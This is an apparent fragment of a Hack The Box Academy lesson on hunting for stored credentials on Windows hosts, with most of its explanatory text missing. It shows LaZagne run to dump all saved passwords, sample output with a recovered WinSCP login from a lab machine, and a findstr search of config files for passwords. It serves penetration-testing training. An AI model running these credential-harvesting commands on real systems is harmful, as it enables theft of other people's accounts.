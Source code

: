 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/147/section/1318
// Platform Version: V1
// Module ID: 147
// Module Name: Password Attacks
// Module Difficulty: Medium
// Section ID: 1318
// Section Title: Credential Hunting in Windows
// Page Title: Hack The Box - Academy
// Page Number: 10
-->

# Credential Hunting in Windows

**Module Name:** Password Attacks **Page Number:** 10

#### 

#### PASSWORD ATTACKS

# Credential Hunting in Windows

## Search Centric

#### Key Terms to Search

## Search Tools

![https://academy.hackthebox.com/storage/modules/147/WindowsSearch.png](https://academy.hackthebox.com/storage/modules/147/WindowsSearch.png)

#### Running Lazagne All

``` cmd-session
C:\Users\bob\Desktop> start lazagne.exe all
```

#### Lazagne Output

``` cmd-session
|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


########## User: bob ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: 10.129.202.51
Login: admin
Password: SteveisReallyCool123
Port: 22
```

#### Using findstr

``` cmd-session
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Additional Considerations

# 

# 

#### Questions

####